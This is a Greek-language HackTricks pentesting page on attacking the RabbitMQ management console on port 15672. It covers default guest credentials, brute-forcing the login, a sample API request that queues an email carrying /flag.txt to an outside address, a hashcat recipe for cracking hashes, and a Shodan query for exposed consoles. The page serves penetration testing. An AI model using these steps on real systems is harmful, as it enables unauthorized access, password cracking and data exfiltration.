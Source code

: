 # 15672 - Pentesting RabbitMQ Management

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Bug bounty tip**: **sign up** for **Intigriti**, a premium **bug bounty platform created by hackers, for hackers**! Join us at [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) today, and start earning bounties up to **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## Basic Information

Μπορείτε να μάθετε περισσότερα για το RabbitMQ στο [**5671,5672 - Pentesting AMQP**](5671-5672-pentesting-amqp.md).\
Σε αυτήν την θύρα μπορεί να βρείτε την web κονσόλα διαχείρισης RabbitMQ αν το [management plugin](https://www.rabbitmq.com/management.html) είναι ενεργοποιημένο.\
Η κύρια σελίδα θα πρέπει να φαίνεται έτσι:

![](<../.gitbook/assets/image (336).png>)

## Enumeration

Τα προεπιλεγμένα διαπιστευτήρια είναι "_**guest**_":"_**guest**_". Αν δεν λειτουργούν, μπορείτε να προσπαθήσετε να [**brute-force the login**](../generic-hacking/brute-force.md#http-post-form).

Για να ξεκινήσετε αυτό το module χειροκίνητα, πρέπει να εκτελέσετε:
```
rabbitmq-plugins enable rabbitmq_management
service rabbitmq-server restart
```
Μόλις έχετε αυθεντικοποιηθεί σωστά, θα δείτε την κονσόλα διαχείρισης:

![](<../.gitbook/assets/image (441).png>)

Επίσης, αν έχετε έγκυρα διαπιστευτήρια, μπορεί να βρείτε ενδιαφέρουσες τις πληροφορίες του `http://localhost:15672/api/connections`

Σημειώστε επίσης ότι είναι δυνατό να **δημοσιεύσετε δεδομένα μέσα σε μια ουρά** χρησιμοποιώντας το API αυτής της υπηρεσίας με ένα αίτημα όπως:
```bash
POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
Host: 172.32.56.72:15672
Authorization: Basic dGVzdDp0ZXN0
Accept: */*
Content-Type: application/json;charset=UTF-8
Content-Length: 267

{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\":\"zevtnax+ppp@gmail.com\", \"attachments\": [{\"path\": \"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}
```
## Σπάσιμο Hash
```bash
echo <base64 rabbit mq hash> | base64 -d | xxd -pr -c128 | perl -pe 's/^(.{8})(.*)/$2:$1/' > hash.txt
hashcat -m 1420 --hex-salt hash.txt wordlist
```
### Shodan

* `port:15672 http`

<figure><img src="../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Tip για bug bounty**: **εγγραφείτε** στο **Intigriti**, μια premium **πλατφόρμα bug bounty που δημιουργήθηκε από hackers, για hackers**! Ελάτε μαζί μας στο [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) σήμερα, και αρχίστε να κερδίζετε βραβεία έως **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Ελάτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
